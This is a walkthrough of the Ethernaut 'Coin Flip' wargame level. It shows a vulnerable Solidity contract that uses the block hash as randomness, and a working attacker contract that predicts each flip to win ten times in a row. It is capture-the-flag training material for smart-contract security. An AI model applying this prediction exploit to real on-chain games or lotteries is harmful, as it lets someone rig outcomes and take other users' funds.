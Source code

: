 # Level 3: Coin Flip

This is the level 3 of [Ethernaut](https://ethernaut.openzeppelin.com/) game.

## Pre-requisites
- [Blocks](https://ethereum.org/en/developers/docs/blocks/) in Ethereum blockchain
- Solidity - interacting with a deployed contract at an address. Read [this](https://solidity-by-example.org/interface/) or better watch [this](https://www.youtube.com/watch?v=YWtT0MNHYhQ)

## Hack

Given contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

Basically, we need to predict outcome of coin flip correctly 10 times in a row to win.

The contract given tries to simulate random coin flip by generating `true` or `false` using the block number of network (Ropsten in our case). But this is not actually really random! You can very easily query the network to see the current block number.

Turns out random number generation is one of the serious pitfalls of blockchains due to deterministic nature. That's why there are dedicated services for the purpose like [Chainlink VRF](https://blog.chain.link/random-number-generation-solidity/).

Since this block number can be easily accessible, we can also generate the result of coin flip and feed this result to `flip` function to have a correct guess and increment `consecutiveWins`. We are able to do this because block time of the network will be long enough so that `block.number` doesn't change between function calls.

We'll write a solidity contract (on Remix IDE) with almost same coin-flip generation code `CoinFlipGuess` & call the `flip` of given `CoinFlip` contract at deployed instance address, with already determined result of flip:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract CoinFlipGuess {
    uint256 public consecutiveWins = 0;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function coinFlipGuess(address _coinFlipAddr) external returns (uint256) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
          revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        bool isRight = ICoinFlip(_coinFlipAddr).flip(side);
        if (isRight) {
            consecutiveWins++;
        } else {
            consecutiveWins = 0;
        }

        return consecutiveWins;
    }
}
```

I'm keeping track of `consecutiveWins` in `CoinFlipGuess` too and returning it from `coinFlipGuess`, just so that I can see it increasing.

Remember to deploy the above contract on Ropsten network because the target - `CoinFlip` is on Ropsten too. 

Get the instance address of give `CoinFlip` instance, so that we can give it to `coinFlipGuess` as param:

```javascript
contract.address()

// Output: <your-instance-address>
```

Now, simply call `coinFlipGuess` method (on Remix) with `<your-instance-address>` as only parameter, 10 times with successful transaction.

Go back to console and query `consecutiveWins` from `CoinFlip` instance:
```javascript
await contract.consecutiveWins().then(v => v.toString())

// Output: '10'
```

You may be tempted to run a loop to call `coinFlipGuess` 10 times automatically, but it won't work because of the guard `if` statement in `CoinFlip`:
```

if (lastHash == blockValue) {
   revert();
}
```
The invocation will revert if block number was same as in previous invocation. Since `lastHash` / `blockValue` is derived from `block.number`.

Game rigged successfully.